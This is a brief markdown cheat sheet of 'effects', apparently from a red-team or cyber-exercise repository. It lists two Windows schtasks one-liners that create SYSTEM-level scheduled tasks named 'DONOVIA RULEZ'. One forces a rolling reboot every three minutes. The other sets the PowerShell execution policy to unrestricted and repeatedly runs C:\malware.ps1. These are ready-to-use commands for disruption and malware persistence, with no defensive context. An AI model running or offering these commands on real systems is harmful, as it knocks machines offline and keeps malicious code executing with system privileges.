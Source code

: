 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/effect.md#run-a-script">Bottom of Page</a>
</p>

# Cheatsheets - Effect
## Table of Contents
* [Scheduled Tasks](#scheduled-tasks)
  * [Rolling Reboot](#rolling-reboot) 
  * [Run a Script](#run-a-script)

## Scheduled Tasks
### Rolling Reboot
```bash
schtasks.exe /create /ru "SYSTEM" /sc minute /mo 3 /tn "DONOVIA RULEZ" /tr "shutdown /r /t 000" 
```

### Run a Script
```bash
schtasks.exe /create /ru "SYSTEM" /sc minute /mo 3 /tn "DONOVIA RULEZ" /tr "Set-ExecutionPolicy unrestricted; C:\malware.ps1" 
```
